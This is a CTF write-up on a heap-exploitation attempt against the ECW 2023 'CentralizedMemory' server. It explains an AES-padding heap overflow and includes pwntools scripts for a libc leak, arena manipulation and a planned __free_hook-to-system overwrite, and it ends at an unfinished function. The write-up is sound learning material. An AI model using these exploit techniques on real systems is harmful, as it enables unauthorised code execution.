


<div align="justify">

# How to almost pwn - Centralized Memory

## Content

- [How to almost pwn](#how-to-almost-pwn)
  - [Content](#content)
  - [Introduction](#introduction)
  - [Reverse engineer the program](#reverse-engineer-the-program)
  - [Exploit](#exploit)
    - [Heap overflow](#heap-overflow)
    - [Little note to help the debug](#little-note-to-help-the-debug)
    - [Heap structures](#heap-structures)
    - [Libc leak](#libc-leak)
    - [Code execution ??](#code-execution-)
  - [Why it does not works on remote](#why-it-does-not-works-on-remote)
  - [Conclusion](#conclusion)
  - [Bibliography](#bibliography)


## Introduction

**DISCLAIMER**: I didn't complete the challenge, but I believe this report can be interesting because I approached it in an unconventional way. Although the challenge was intended to involve stack exploitation, I ended up exploring heap-related aspects. Additionally, I consider myself a novice in pwn (exploitation) techniques, so there may be inaccuracies or incomplete information in my report. I'm open to learn from more individuals in the field.

During the ECW 2023 Qualifications CTF, I decided to tackle the CentralizedMemory challenge. The provided context explained that a society aimed to restrict memory usage on employees' computers, so they devised a server to centralize RAM. Clients were required to allocate memory from this central server. My initial objective was to reverse engineer the server binary, and later, I intended to contemplate the possibilities for an exploitation chain. Let's go !

## Reverse engineer the program

Since this challenge was not originally intended to be a reverse engineering task, I'll skip that step and proceed directly to presenting the results. The program can be summarized like that (in pseudo-C) :

```c
struct Client {
    char pad[8]; // Not really padding but not interesting
    int client_fd;
    char pad[4];
} __attribute__((packed));

struct RAMContent {
    short checksum;
    short content_size;
    short aligned_size;
    short pad;
    int id;
    char data[1]; // Not really char[1] but from here to here+aligned_size it is reserved
} __attribute__((packed));

struct RAMChunk {
    struct RAM *next;
    struct RAMChunk *prev;
} __attribute__((packed));

struct RAM {
    char should_use_crypto; 
    char unk[7]; 
    struct RAMContent *content; 
    struct RAMChunk chunk;
} __attribute__((packed));

char KEY[16] = "TH3Gr3eNSh4rDk3y";
char IV[0] = {0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0};
char *RAM_CONTENT = malloc(0x10000);
unsigned int RAM_CONTENT_INDEX = 0
unsigned RAM_ID = 0;
struct RAMChunk RAM_INIT_CHUNK = {
    .next = NULL;
    .prev = &RAM_INIT_CHUNK;
};

void main(void) {
    while(true) {
        struct Client *client = wait_for_client(); // There is 0x10 bytes mallocated by this function
        create_thread(treat_client, client);
    }
}

void treat_client(struct Client *client) {
    while(is_open(client)) {
        unsigned int command = get_command(client);
        switch(command) {
            case 0:
                command_0_send_informations(client->fd);
                break;
            case 1:
                command_RAM_malloc(client->fd);
                break;
            case 2:
                command_RAM_free(client->fd);
                break;
            case 3:
                command_RAM_decrypt(client->fd);
                break;
            case 4:
                command_RAM_encrypt(client->fd);
                break;
            case 5:
                command_RAM_free_all(client->fd);
                break;
            case 6:
                command_RAM_available_size(client->fd);
                break;
            case 7:
                command_RAM_unfragment(client->fd);
                break;
            default:
                send_int(client->fd, 0xc0000001);
        }
    }
}
```

Here's a description of the various commands used in the challenge:

| Command                    | Description                                                                                                  |
|---------------------------|--------------------------------------------------------------------------------------------------------------|
| command_0_send_informations | Sends basic static information. |
| command_RAM_malloc         | Allocates a RAM structure using malloc, with a RAMContent size ranging from 0x1 to 0x200. It can use encryption (AES) to secure the content. The command returns the ID associated with the newly created chunk. |
| command_RAM_free           | Unlinks a chunk from the double-linked list and frees its associated RAM chunk. |
| command_RAM_decrypt        | Reads the content of a chunk and decrypts it if the `should_use_crypto` flag is set. |
| command_RAM_encrypt        | Writes content to a chunk, encrypting it if 'should_use_crypto' is enabled. |
| command_RAM_free_all       | Frees all allocated memory chunks and clears the double-linked list. |
| command_RAM_available_size | Provides information about the `RAM_CONTENT_INDEX`. |
| command_RAM_unfragment     | Unfragments memory to consolidate emptied data after using `command_RAM_free`. |

## Exploit

In my initial search, I aimed to identify a potential overflow vulnerability. 

### Heap overflow 

I uncovered a method to write data beyond the allocated 0x10000 bytes of the `RAM_CONTENT` and this exploit is tied to a weakness in the logic behind encryption mechanism. The program employs AES encryption with a 16-byte block size. This is why the `RAMContent` struct includes two sizes: `content_size` and `aligned_size`. When a chunk is configured to use encryption, the `aligned_size` is set to `content_size` rounded up to the nearest 0x10 bytes. For instance, if `content_size` is 0x1, it becomes 0x10, and if it's 0x10, it becomes 0x20. This calculation is carried out with the operation: `aligned_size = (content_size >> 4) * 0x10 + 0x10`.

The issue arises when you request encryption for a block with an `aligned_size` value equal to the content size to encrypt. In this scenario, the encryption function generates another block filled with zeros and encrypts it. The following code segment highlights the lines responsible for this issue in the encryption function:

```c
int AES_encrypt(char *in, int size, char *key, char *iv, char *out) {
    EVP_CIPHER *cipher;
    int encrypted;
    int total_encrypted;
    EVP_CIPHER_CTX *cipher_ctx;
    
    // Ommited code
    cipher_ctx = EVP_CIPHER_CTX_new();
    // Ommited code
    cipher = EVP_aes_128_cbc();
    // Ommited code
    EVP_EncryptUpdate(cipher_ctx,out,&encrypted,in,size); // Encrypt data
    // Ommited code
    EVP_EncryptFinal_ex(cipher_ctx,out + encrypted,&encrypted); // If data was a complete block (0x10 bytes), here encrypt a zeroed block
    // Ommited code
}
```

Imagine if we were to overwrite the 0x10 bytes in another `RAMContent` structure. By doing this, we could overwrite both the `content_size` and `aligned_size` fields. Although the affected block may not be usable anymore due to the checksum calculation performed each time we encrypt or decrypt a block, we could combine this with the `unfragment` command to make `RAM_CONTENT_INDEX` larger than 0x10000. This would allow us to write beyond the originally allocated buffer.

This manipulation of the `RAMContent` structure, in conjunction with the `unfragment` command, provides a pathway to extend our write capabilities beyond the initial buffer size of 0x10000 bytes. This occurs because, during the `unfragment` step, the RAM_CONTENT_INDEX is calculated by adding up each `aligned_size` of every chunk. Since we've overwritten some `aligned_size` values with the encrypted data, increasing them to 0x5c0c, we can effectively surpass the initial 0x10000 limitation. This allows us to extend our memory write capabilities beyond the original constraints.



### Little note to help the debug

Managing a program with numerous structures, global variables, and functions, especially when lacking symbols, can be quite challenging in a GDB instance. To mitigate this difficulty, I created a fake symbol file. You can examine the details of how I implemented this in the [sym directory](../sym/). This symbolic representation likely helped me navigate and debug the program more effectively.

### Heap structures

Since we can manipulate the content of the heap beyond our initial 0x10000 chunk, my next step was to explore the data located after this chunk. My objective was to identify any valuable structures that would enable me to perform actions such as leaking the libc address (due to ASLR) or writing data to specific locations. This investigation would help me gain greater control over the program's execution. I will use the following code to do some connections to the server:

```py
from pwn import *

exe = ELF("GS_memory_server_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = remote("127.0.0.1", 1337)
    else:
        r = remote("instances.challenge-ecw.fr", 41621)

    return r

def main():
    log.info("Letzgongue")
    r = conn()
    c2 = conn()
    c1 = conn()
    input(">>><<<")

if __name__ == "__main__":
    main()
```

Here is the result in the debugger :

```gdb
gef➤  p RAM_CONTENT
$1 = 0x55555555b2a0 ""
gef➤  heap chunks
Chunk(addr=0x55555555b010, size=0x290, flags=PREV_INUSE)
    [0x000055555555b010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55555555b2a0, size=0x10010, flags=PREV_INUSE)
    [0x000055555555b2a0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55555556b2b0, size=0x410, flags=PREV_INUSE)
    [0x000055555556b2b0     5b 2a 5d 20 4e 65 77 20 63 6c 69 65 6e 74 20 63    [*] New client c]
Chunk(addr=0x55555556b6c0, size=0x20, flags=PREV_INUSE)
    [0x000055555556b6c0     00 47 ab f7 ff 7f 00 00 04 00 00 00 00 00 00 00    .G..............]
Chunk(addr=0x55555556b6e0, size=0x120, flags=PREV_INUSE)
    [0x000055555556b6e0     0f 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55555556b800, size=0x20, flags=PREV_INUSE)
    [0x000055555556b800     00 37 2b f7 ff 7f 00 00 05 00 00 00 00 00 00 00    .7+.............]
Chunk(addr=0x55555556b820, size=0x120, flags=PREV_INUSE)
    [0x000055555556b820     0f 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55555556b940, size=0x20, flags=PREV_INUSE)
    [0x000055555556b940     00 27 ab f6 ff 7f 00 00 06 00 00 00 00 00 00 00    .'..............]
Chunk(addr=0x55555556b960, size=0x120, flags=PREV_INUSE)
    [0x000055555556b960     0f 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55555556ba80, size=0x10590, flags=PREV_INUSE)
    [0x000055555556ba80     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55555556ba80, size=0x10590, flags=PREV_INUSE)  ←  top chunk
```

Indeed, there's a lot to uncover in this program. To begin, the chunk at address 0x55555555b2a0 is a 0x10000-byte malloced chunk with a total size of 0x10010 bytes. The chunks of size 0x10 (0x20 total size) seem to be instances of the `struct Client` allocated for each connection. However, the purpose or nature of the 0x120 chunks remains uncertain at this point. A notable observation is that we have the ability to free the client chunks at our discretion by closing the client connections. Furthermore, since we can modify the `malloc_chunk structure` of these client chunks, this provides us with the opportunity to leak the libc address. I will delve into the details of this technique.

### Libc leak

When a chunk is freed in the libc memory management, there are various ways that the libc may handle it based on its size and location. Here are some of the common methods:

- **Tcache**: Small-sized freed blocks are often placed in the tcache, which is a singly linked list designed to store these blocks.
- **Unsorted Bins**: Medium-sized freed blocks typically go into the unsorted bins, which are doubly linked lists for managing such blocks.
- **Fastbins and More**: There are several other types of lists, such as fastbins, that the libc may use for specific purposes.

One well-known technique, not for me but for the internet 😉, involves freeing a medium-sized block to allow the libc to place it in the unsorted bins. After this operation, the address of a specific location in the libc is placed in the `bk` field of the malloc chunk. This technique is used to manipulate memory allocation and perform actions like leaking libc addresses, which can be a valuable step in various exploitation scenarios.

```c
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
}
```

Our leak plan is the following:
- Allocate some clients
- Heap overflow to make one RAMContent chunk point on the address which is used by the chunk to modify
- Modify the size of the block to let it be freed in the unsorted bins and not in the fastbins
- Free the client
- Read from our RAMContent

Let's code the leak !

```python
from pwn import *

exe = ELF("GS_memory_server_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = remote("127.0.0.1", 1337)
    else:
        r = remote("instances.challenge-ecw.fr", 41621)

    return r

def send_int(r, i):
    r.send(int.to_bytes(i, 4, "little"))

def send_long(r, i):
    r.send(int.to_bytes(i, 8, "little"))

def send_0_get_informations(r):
    send_int(r, 0)
    log.info(f"RAM_info = {r.recv()}")

def send_1_RAM_malloc(r, size, should_use_crypto):
    send_int(r, 1)
    send_int(r, size | (should_use_crypto<<16))
    RAM_malloc_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_malloc_res = {hex(RAM_malloc_res)}")
    if RAM_malloc_res == 0:
        RAM_id = int.from_bytes(r.recv(4), "little")
        log.info(f"RAM_id = {hex(RAM_id)}")

def send_2_RAM_free(r, ram_id):
    send_int(r, 2)
    send_int(r, ram_id)
    RAM_free_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_free_res = {hex(RAM_free_res)}")

def send_3_RAM_decrypt(r, ram_id):
    send_int(r, 3)
    send_int(r, ram_id)
    RAM_decrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_decrypt_res = {hex(RAM_decrypt_res)}")
    if RAM_decrypt_res == 0:
        RAM_content_size = int.from_bytes(r.recv(2), "little")
        log.info(f"RAM_content_size = {hex(RAM_content_size)}")
        RAM_content = r.recv(RAM_content_size)
        log.info(f"RAM_content = {RAM_content}")
        return RAM_content

def send_4_RAM_encrypt(r, ram_id, size, content):
    assert size == len(content)
    send_int(r, 4)
    send_long(r, (ram_id) | (size<<32))
    r.send(content)
    RAM_encrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_encrypt_res = {hex(RAM_encrypt_res)}")

def send_5_RAM_free_all(r):
    send_int(r, 5)
    RAM_free_all_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_free_all_res = {hex(RAM_free_all_res)}")

def send_6_RAM_available_size(r):
    send_int(r, 6)
    RAM_available_size_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_available_size_res = {hex(RAM_available_size_res)}")
    RAM_available_size = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_available_size = {hex(RAM_available_size)}")

def send_7_RAM_unfragment(r):
    send_int(r, 7)
    RAM_unfragment_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_unfragment_res = {hex(RAM_unfragment_res)}")

class Exploit():
    CURRENT_RAM_ID = 0

    def __init__(self):
        pass
    
    def exploit(self):
        libc.address = self.leak_libc()
        log.info(f"Leaked libc address is {hex(libc.address)}")
        input("<<<>>>")

    def leak_libc(self):
        c1 = conn()
        c2 = conn()
        
        r = conn()
        ram_id = point_at(r, 0x10410, 0x20)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x141.to_bytes(8, "little"))
        c1.close()
        leak = send_3_RAM_decrypt(r, ram_id)
        r.close()
        c2.close()
        return int.from_bytes(leak[16:24], "little") - libc.symbols["__malloc_hook"] - 112

def point_at(r, to_point, size):
    long  = to_point//(0x5c0c + 0xc*2 + 0x10)
    short = (to_point - long*(0x5c0c + 0xc*2 + 0x10))//0x20c
    done  = to_point - long*(0x5c0c + 0xc*2 + 0x10) - short*0x20c

    if done - 2*0xc < 0:
        raise Exception("Not good path found")

    if done - 2*0xc != 0:
        send_1_RAM_malloc(r, done-2*0xc, 0)
        Exploit.CURRENT_RAM_ID += 1

    for _ in range(long):
        send_1_RAM_malloc(r, 0x01, 1)
        send_1_RAM_malloc(r, 0x01, 1)
        send_4_RAM_encrypt(r, Exploit.CURRENT_RAM_ID, 0x10, b"b"*0x10)
        Exploit.CURRENT_RAM_ID += 2

    for _ in range(short):
        send_1_RAM_malloc(r, 0x200, 0)
        Exploit.CURRENT_RAM_ID += 1

    send_7_RAM_unfragment(r)
    send_1_RAM_malloc(r, size, 0)
    Exploit.CURRENT_RAM_ID += 1

    return Exploit.CURRENT_RAM_ID-1

def main():
    exp = Exploit()
    exp.exploit()

if __name__ == "__main__":
    main()
```

And when we execute, we find :

```
[*] Leaked libc address is 0x7ffff7abd000
```

Let's compare it with the real value :

```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
# Ommited code
0x007ffff7abd000 0x007ffff7adf000 0x00000000000000 r-- /mnt/c/Users/aiglematth/Documents/ctf/ecw2023/pwn/centralized_memory/libc.so.6
# Ommited code
```

We effectively gathered the libc start address.

### Code execution ??

Let's explore the challenging aspect: the one that made my exploit not effective in the online CTF instance but successful in a local environment - achieving code execution. My idea was as follows: since the `RAM` struct contains a pointer to the `RAMContent` struct, which is essentially the location where we write data when using the write command, I wanted to leverage this structure for write where I want and achieve code execution. However, a significant challenge arose: the `RAM` structs are mallocated within the client thread context, not the main one. Consequently, a new malloc arena is created, causing the structs to be situated quite far from our overflow point. The script and results below illustrate this issue.

```py
from pwn import *

exe = ELF("GS_memory_server_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = remote("127.0.0.1", 1337)
    else:
        r = remote("instances.challenge-ecw.fr", 41621)

    return r

def send_int(r, i):
    r.send(int.to_bytes(i, 4, "little"))

def send_1_RAM_malloc(r, size, should_use_crypto):
    send_int(r, 1)
    send_int(r, size | (should_use_crypto<<16))
    RAM_malloc_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_malloc_res = {hex(RAM_malloc_res)}")
    if RAM_malloc_res == 0:
        RAM_id = int.from_bytes(r.recv(4), "little")
        log.info(f"RAM_id = {hex(RAM_id)}")

class Exploit():    
    def exploit(self):
        for client in [conn() for _ in range(3)]:
            send_1_RAM_malloc(client, 0x10, 0) 

        input("<<<>>>")

def main():
    exp = Exploit()
    exp.exploit()

if __name__ == "__main__":
    main()
```

```
gef➤  print RAM_INIT_CHUNK.next
$1 = (struct RAM *) 0x7ffff0000b60
gef➤  print RAM_INIT_CHUNK.next.chunk.next
$2 = (struct RAM *) 0x7fffe8000b60
gef➤  print RAM_INIT_CHUNK.next.chunk.next.chunk.next
$3 = (struct RAM *) 0x7fffec000b60
gef➤  heap arenas
Arena(base=0x7ffff7ca9b80, top=0x55555556ba70, last_remainder=0x0, next=0x7fffec000020, next_free=0x0, system_mem=0x21000)
Arena(base=0x7fffec000020, top=0x7fffec000b80, last_remainder=0x0, next=0x7fffe8000020, next_free=0x0, system_mem=0x21000)
Arena(base=0x7fffe8000020, top=0x7fffe8000b80, last_remainder=0x0, next=0x7ffff0000020, next_free=0x0, system_mem=0x21000)
Arena(base=0x7ffff0000020, top=0x7ffff0000b80, last_remainder=0x0, next=0x7ffff7ca9b80, next_free=0x0, system_mem=0x21000)
```

As you can observe, there is one arena created per thread, and an additional one for the main context. Following some investigation, I discovered the following information: **libc allocates a maximum of 8 times the number of cores' arenas, and beyond this limit, it switches to the existing arenas**. As I have 16 cores, 16*8 = 128 clients should be enough to cycle. We can verify this information with the following pipeline:

- Allocate a client.
- Modify its chunk size to match the size of the `RAM` structure, which is 0x20, or 0x30 including the 0x10 bytes related to the `malloc_chunk` struct.
- Free the client to move the modified block into the fastbins.
- Allocate 126 clients and force them to create an arena by allocating one `RAM` struct per client.
- Allocate another client.
- Utilize it to perform an overflow until reaching the address of the chunk placed in the fastbins and allocate a `RAMContent` chunk.
- Allocate a client and one `RAM` struct from this client.
- Read from the `RAMContent` chunk. If the bytes are zero, it indicates the approach did not work; otherwise, it signifies success.

Let's proceed with this test!

```py
from pwn import *

exe = ELF("GS_memory_server_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = remote("127.0.0.1", 1337)
    else:
        r = remote("instances.challenge-ecw.fr", 41621)

    return r

def send_int(r, i):
    r.send(int.to_bytes(i, 4, "little"))

def send_long(r, i):
    r.send(int.to_bytes(i, 8, "little"))

def send_1_RAM_malloc(r, size, should_use_crypto):
    send_int(r, 1)
    send_int(r, size | (should_use_crypto<<16))
    RAM_malloc_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_malloc_res = {hex(RAM_malloc_res)}")
    if RAM_malloc_res == 0:
        RAM_id = int.from_bytes(r.recv(4), "little")
        log.info(f"RAM_id = {hex(RAM_id)}")

def send_3_RAM_decrypt(r, ram_id):
    send_int(r, 3)
    send_int(r, ram_id)
    RAM_decrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_decrypt_res = {hex(RAM_decrypt_res)}")
    if RAM_decrypt_res == 0:
        RAM_content_size = int.from_bytes(r.recv(2), "little")
        log.info(f"RAM_content_size = {hex(RAM_content_size)}")
        RAM_content = r.recv(RAM_content_size)
        log.info(f"RAM_content = {RAM_content}")
        return RAM_content

def send_4_RAM_encrypt(r, ram_id, size, content):
    assert size == len(content)
    send_int(r, 4)
    send_long(r, (ram_id) | (size<<32))
    r.send(content)
    RAM_encrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_encrypt_res = {hex(RAM_encrypt_res)}")

def send_5_RAM_free_all(r):
    send_int(r, 5)
    RAM_free_all_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_free_all_res = {hex(RAM_free_all_res)}")

def send_7_RAM_unfragment(r):
    send_int(r, 7)
    RAM_unfragment_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_unfragment_res = {hex(RAM_unfragment_res)}")

class Exploit():
    CURRENT_RAM_ID = 0

    def __init__(self):
        self.heap = 0
    
    def exploit(self):
        if self.test_cores(16) == True:
            log.critical("FOUND SIZE!!!!!!!!!!!!")

    def test_cores(self, nb):
        log.info("Create a chunk in 0x30 fastbin")
        c1 = conn()
        r  = conn()

        ram_id = point_at(r, 0x10410, 0x40)
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x40, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*0x18 + 
            0x121.to_bytes(8, "little") +
            0x30.to_bytes(8, "little") +
            0x31.to_bytes(8, "little")
        )
        c1.close()
        r.close()

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        log.info("Create clients to enforce the use of main arena")
        clients = [conn() for _ in range(8*nb - 2)]

        for client in clients:
            send_1_RAM_malloc(client, 1, 0)
            Exploit.CURRENT_RAM_ID += 1

        log.info("Point to the future created chunk")
        r = conn()
        ram_id = point_at(r, 0x10410-0x666, 0x200)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x30.to_bytes(8, "little"))

        log.info("Create chunk")
        ram_chunk = conn()
        send_1_RAM_malloc(ram_chunk, 1, 0)
        ram_chunk_id = Exploit.CURRENT_RAM_ID
        Exploit.CURRENT_RAM_ID += 1

        log.info("Check if the created chunk is really controlled")
        leak = send_3_RAM_decrypt(r, ram_id)
        return leak.count(b"\x00") != 511

def point_at(r, to_point, size):
    long  = to_point//(0x5c0c + 0xc*2 + 0x10)
    short = (to_point - long*(0x5c0c + 0xc*2 + 0x10))//0x20c
    done  = to_point - long*(0x5c0c + 0xc*2 + 0x10) - short*0x20c

    if done - 2*0xc < 0:
        raise Exception("Not good path found")

    if done - 2*0xc != 0:
        send_1_RAM_malloc(r, done-2*0xc, 0)
        Exploit.CURRENT_RAM_ID += 1

    for _ in range(long):
        send_1_RAM_malloc(r, 0x01, 1)
        send_1_RAM_malloc(r, 0x01, 1)
        send_4_RAM_encrypt(r, Exploit.CURRENT_RAM_ID, 0x10, b"b"*0x10)
        Exploit.CURRENT_RAM_ID += 2

    for _ in range(short):
        send_1_RAM_malloc(r, 0x200, 0)
        Exploit.CURRENT_RAM_ID += 1

    send_7_RAM_unfragment(r)
    send_1_RAM_malloc(r, size, 0)
    Exploit.CURRENT_RAM_ID += 1

    return Exploit.CURRENT_RAM_ID-1

def main():
    exp = Exploit()
    exp.exploit()

if __name__ == "__main__":
    main()
```

```
[CRITICAL] FOUND SIZE!!!!!!!!!!!!
```

Great news! Since it works, and we can point to this chunk and read from it, we also have the ability to modify the `content` field, allowing us to write to the desired location. Now, as we are dealing with a libc 2.31, we can modify `__free_hook` to point to `system`, fill our controlled `RAM` struct with a command and just free the chunk to execute code. The problem is the following : `RAM.content` point to a `RAMContent` struct. To write to this struct, we must have a valid checksum regarding the ID, and have sizes not null. I found a 0x30 solo byte in the libc not too far of the `__free_hook`, allowing me to have a not null size, and a checksum of 0 for an ID of 0 : its valid. From here, I will write another `RAMContent` struct a bit farer, and modify the `RAM.content` pointer to point to this new struct. From jump to jump, we can point to our so wanted hook, and modify its address with the address of `system`. After that, we will just fill the `RAM` chunk with a command and boom, code execution.

*Jump to __free_hook :*


That is the exploitation script :

```py
from pwn import *

exe = ELF("GS_memory_server_patched")
libc = ELF("libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe

def conn():
    if args.LOCAL:
        r = remote("127.0.0.1", 1337)
    else:
        r = remote("instances.challenge-ecw.fr", 41621)

    return r

def send_int(r, i):
    r.send(int.to_bytes(i, 4, "little"))

def send_long(r, i):
    r.send(int.to_bytes(i, 8, "little"))

def send_0_get_informations(r):
    send_int(r, 0)
    log.info(f"RAM_info = {r.recv()}")

def send_1_RAM_malloc(r, size, should_use_crypto):
    send_int(r, 1)
    send_int(r, size | (should_use_crypto<<16))
    RAM_malloc_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_malloc_res = {hex(RAM_malloc_res)}")
    if RAM_malloc_res == 0:
        RAM_id = int.from_bytes(r.recv(4), "little")
        log.info(f"RAM_id = {hex(RAM_id)}")

def send_2_RAM_free(r, ram_id):
    send_int(r, 2)
    send_int(r, ram_id)
    RAM_free_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_free_res = {hex(RAM_free_res)}")

def send_3_RAM_decrypt(r, ram_id):
    send_int(r, 3)
    send_int(r, ram_id)
    RAM_decrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_decrypt_res = {hex(RAM_decrypt_res)}")
    if RAM_decrypt_res == 0:
        RAM_content_size = int.from_bytes(r.recv(2), "little")
        log.info(f"RAM_content_size = {hex(RAM_content_size)}")
        RAM_content = r.recv(RAM_content_size)
        log.info(f"RAM_content = {RAM_content}")
        return RAM_content

def send_4_RAM_encrypt(r, ram_id, size, content):
    assert size == len(content)

    send_int(r, 4)
    send_long(r, (ram_id) | (size<<32))
    r.send(content)
    RAM_encrypt_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_encrypt_res = {hex(RAM_encrypt_res)}")

def send_5_RAM_free_all(r):
    send_int(r, 5)
    RAM_free_all_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_free_all_res = {hex(RAM_free_all_res)}")

def send_6_RAM_available_size(r):
    send_int(r, 6)
    RAM_available_size_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_available_size_res = {hex(RAM_available_size_res)}")
    RAM_available_size = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_available_size = {hex(RAM_available_size)}")

def send_7_RAM_unfragment(r):
    send_int(r, 7)
    RAM_unfragment_res = int.from_bytes(r.recv(4), "little")
    log.info(f"RAM_unfragment_res = {hex(RAM_unfragment_res)}")

class Exploit():
    CURRENT_RAM_ID = 0

    def __init__(self):
        self.heap = 0
    
    def exploit(self):
        libc.address = self.leak_libc()
        log.info(f"Leaked libc address is {hex(libc.address)}")

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        self.heap = self.leak_heap()
        log.info(f"Leaked heap address is {hex(self.heap)}")

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        self.allocate_ram()

    def test_cores(self, nb):
        log.info("Create a chunk in 0x30 fastbin")
        c1 = conn()
        r  = conn()

        ram_id = point_at(r, 0x10410, 0x40)
        send_4_RAM_encrypt(
            r, 
            ram_id, 
            0x40, 
            b"\x00"*8 + 
            0x31.to_bytes(8, "little") +
            b"\x00"*0x18 + 
            0x121.to_bytes(8, "little") +
            0x30.to_bytes(8, "little") +
            0x31.to_bytes(8, "little")
        )
        c1.close()
        r.close()

        r = conn()
        send_5_RAM_free_all(r)
        r.close()

        log.info("Create clients to enforce the use of main arena")
        clients = [conn() for _ in range(8*nb - 2)]

        for client in clients:
            send_1_RAM_malloc(client, 1, 0)
            Exploit.CURRENT_RAM_ID += 1

        log.info("Point to the future created chunk")
        r = conn()
        ram_id = point_at(r, 0x10410-0x666, 0x200)
        send_4_RAM_encrypt(r, ram_id, 0x10, b"\x00"*8 + 0x30.to_bytes(8, "little"))

        log.info("Create chunk")
        ram_chunk = conn()
        send_1_RAM_malloc(ram_chunk, 1, 0)
        ram_chunk_id = Exploit.CURRENT_RAM_ID
        Exploit.CURRENT_RAM_ID += 1

        log.info("Check if the created chunk is really controlled")
        leak = send_3_RAM_decrypt(r, ram_id)
        return leak.count(b"\x00") != 511

    def allocate_ram(self):
